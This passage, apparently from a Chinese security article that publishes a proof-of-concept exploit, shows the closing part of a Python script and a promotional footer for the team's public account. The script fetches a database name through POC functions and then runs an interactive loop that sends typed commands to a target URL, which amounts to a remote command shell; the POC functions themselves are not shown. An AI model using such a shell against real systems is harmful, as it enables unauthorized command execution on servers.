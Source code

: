 ```
    db_name = POC_1(target_url)
    POC_2(target_url, db_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_3(target_url, cmd)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7pCmG9kTVVuzBDdQgkQa6qzL2N1ia9Coib9JKMHwusJVguicvR9jjhUozGtZgvGQbTD92wYs04hzRug/640?wx_fmt=png)

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 别忘了 Github 下载完给个小星星⭐

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6wnKTQvK0n8sFOQEEFQro75IHato7k7WJakCwObVtic8kOiagRSTylHIhHxg4DVKOhBFDazKkCMgvw/640?wx_fmt=png)